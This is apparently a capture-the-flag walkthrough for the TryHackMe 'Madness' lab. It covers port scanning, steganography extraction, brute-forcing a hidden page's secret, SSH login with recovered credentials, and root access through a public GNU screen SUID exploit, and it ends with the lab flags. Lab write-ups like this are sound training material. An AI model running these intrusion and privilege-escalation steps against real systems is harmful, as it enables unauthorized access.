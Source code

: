 # <div align="center">[Madness](https://tryhackme.com/r/room/madness)</div>
<div align="center">
  <img src="https://github.com/user-attachments/assets/044d66b7-a10d-45ac-9790-2df9df4478c2" height="200"></img>
</div>

## Let start with Scanning The IP ```nmap -sC -sV <IP>```
```
death@esther:~$ nmap -sC -sV 10.10.183.133
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-11-01 21:50 IST
Nmap scan report for 10.10.183.133
Host is up (0.19s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 ac:f9:85:10:52:65:6e:17:f5:1c:34:e7:d8:64:67:b1 (RSA)
|   256 dd:8e:5a:ec:b1:95:cd:dc:4d:01:b3:fe:5f:4e:12:c1 (ECDSA)
|_  256 e9:ed:e3:eb:58:77:3b:00:5e:3a:f5:24:d8:58:34:8e (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
### On apache2 default page there is a comment and Path of img.
<div align="center">
  <img src="https://github.com/user-attachments/assets/0d7cda38-0438-4380-8cf5-5fb5b05902c5" height=""></img>
</div>


### Let download this imge
```
wget http://10.10.81.42/thm.jpg
```
### Its not an image as i examined the first 12 bits of and converted it to a **JPG** format.
```
xxd thm.jpg | head
printf '\xff\xd8\xff\xe0\x00\x10\x4a\x46\x49\x46\x00\x01' | dd conv=notrunc of=thm.jpg bs=1
```
### Let take look at this:
```
http://10.10.81.42/th1s_1s_h1dd3n
```
### Source code i got this

<div align="center">
  <img src="https://github.com/user-attachments/assets/20970dbb-2034-4e99-bbe5-a024182ee976" height=""></img>
</div>

### Let try to enter random value

<div align="center">
  <img src="https://github.com/user-attachments/assets/f0fbbd0e-ac18-4e9c-9058-3c128f36117d" height=""></img>
</div>

### Doing this manually take a long time let automate this with help of python, I already created secret.py [tap here](./secret.py) 
```
death@esther:~$ python3 secret.py 
Enter IP:10.10.183.133
Found secret: 73
<html>
<head>
  <title>Hidden Directory</title>
  <link href="stylesheet.css" rel="stylesheet" type="text/css">
</head>
<body>
  <div class="main">
<h2>Welcome! I have been expecting you!</h2>
<p>To obtain my identity you need to guess my secret! </p>
<!-- It's between 0-99 but I don't think anyone will look here-->

<p>Secret Entered: 73</p>

<p>Urgh, you got it right! But I won't tell you who I am! y2RPJ4QaPF!B</p>

</div>
</body>
</html>
```
# y2RPJ4QaPF!B 

steghide info thm.jpg
steghide extract -sf thm.jpg
cat hidden.txt
# wbxre
echo -n "wbxre" | tr 'A-Za-z' 'N-ZA-Mn-za-m'
# joker
wget https://<IP>/5iW7kC8.jpg
steghide info 5iW7kC8.jpg
steghide extract -sf 5iW7kC8.jpg
cat password.txt
sshpass -p "*axA&GF8dP" ssh joker@<IP>
cat user.txt 
```
```
THM{d5781e53b130efe2f94f9b0354a5e4ea}
```
```
find / -user root -perm -u=s 2>/dev/null
ls -l /bin/screen*
# https://www.exploit-db.com/exploits/41154
sh 41154.sh 
cat /root/root.txt
THM{5ecd98aa66a6abb670184d7547c8124a}
```
